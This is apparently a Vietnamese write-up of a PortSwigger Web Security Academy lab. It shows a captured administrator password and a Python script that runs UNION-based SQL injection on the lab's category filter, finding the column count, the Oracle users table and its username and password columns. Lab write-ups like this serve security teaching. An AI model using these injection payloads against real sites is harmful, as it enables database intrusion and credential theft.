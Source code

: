 ![image](https://hackmd.io/_uploads/BJEQK629a.png)

mình đăng nhập với tài khoản admin **administrator:tt1gghpj0jq55i6rll1r** và giải quyết được bài lab này

![image](https://hackmd.io/_uploads/HkibjT39a.png)

mình đã viết script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a9c003f044ba90e81833ad6004b000a.web-security-academy.net'

session = requests.Session()

# xác định số cột
for x in range(20):
    test_column = "' UNION SELECT " + "NULL," * x + "NULL FROM dual-- "
    params = {'category' : test_column,}
    response = session.get(url + "/filter",params=params,verify=False,)
    if(response.status_code == 200):
        print("bảng có số cột là: ", (x+1))
        break

payload = "' UNION SELECT table_name, NULL FROM all_tables--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)
pattern = r"USERS_\w{6}\b"
match = re.search(pattern, response.text)
table_user = match.group()
print(table_user)

payload = "' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = '" + table_user + "'--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)
pattern = r"USERNAME_\w{6}\b"
match = re.search(pattern, response.text)
username_column = match.group()
print(username_column)
pattern = r"PASSWORD_\w{6}\b"
match = re.search(pattern, response.text)
passwod_column = match.group()
print(passwod_column)

```